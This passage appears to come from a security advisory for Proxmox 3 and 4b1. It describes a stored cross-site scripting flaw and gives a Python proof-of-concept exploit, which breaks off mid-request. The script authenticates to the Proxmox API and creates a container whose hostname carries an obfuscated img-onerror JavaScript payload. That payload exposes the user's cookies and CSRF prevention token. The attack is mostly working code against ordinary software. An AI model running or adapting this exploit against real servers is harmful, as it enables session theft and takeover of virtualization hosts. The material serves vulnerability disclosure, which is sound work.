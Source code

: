 -- On container :

    root@xyz:/# ls -lah /dev/dm-0
    brw-r----T 1 root root 253, 0 Aug 23 00:33 /dev/dm-0

---
Stored Cross-Site Scripting
===========================

Same vulnerability, different usage. Works on Proxmox 3 and Proxmox 4b1.

**Access Vector**: remote

**Security Risk**: high


Proof of Concept
----------------

The following exploit will create a stored XSS displaying the user cookies and the PVE CSRFPreventionToken.


    #!/usr/bin/env python

    import requests
    import socket
    import telnetlib
    from threading import Thread
    import argparse

    def exploit(target, username, password, vmid, template, realm, version, hostname):
        payload = "eval(String.fromCharCode(97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,43,34,45,34,32,43,32,80,86,69,46,67,83,82,70,80,114,101,118,101,110,116,105,111,110,84,111,107,101,110,41,59))"
        print "[~] Obtaining authorization key..."
        apireq = requests.post("https://%s/api2/extjs/access/ticket" % target,
                               verify=False,
                               data={"username": username,
                                     "password": password,
                                     "realm": realm})
        response = apireq.json()
        if "success" in response and response["success"]:
            print "[+] Authentication success."
            ticket = response["data"]["ticket"]
            csrfticket = response["data"]["CSRFPreventionToken"]
            if version == "4":
                createvm = requests.post("https://%s/api2/extjs/nodes/%s/lxc" % (target, hostname),
                                         verify=False,
                                         headers={"CSRFPreventionToken": csrfticket},
                                         cookies={"PVEAuthCookie": ticket},
                                         data={"vmid": vmid,
                                               "hostname":"<img/src='x'/onerror=%s>" % payload,
                                               "storage": "local",
                                               "password": "xyz",
                                               "ostemplate": template,
                                               "memory": 512,
                                               "swap": 512,
                                               "disk": 2,
                                               "cpulimit": 1,
                                               "cpuunits": 1024,
                                               "net0":"name=eth0"})
            elif version == "3":
                   createvm = requests.post("https://%s/api2/extjs/nodes/%s/openvz" % (target, hostname),
                                         verify=False, headers={"CSRFPreventionToken": csrfticket},
                                         cookies={"PVEAuthCookie": ticket},
                                         data={"vmid": vmid,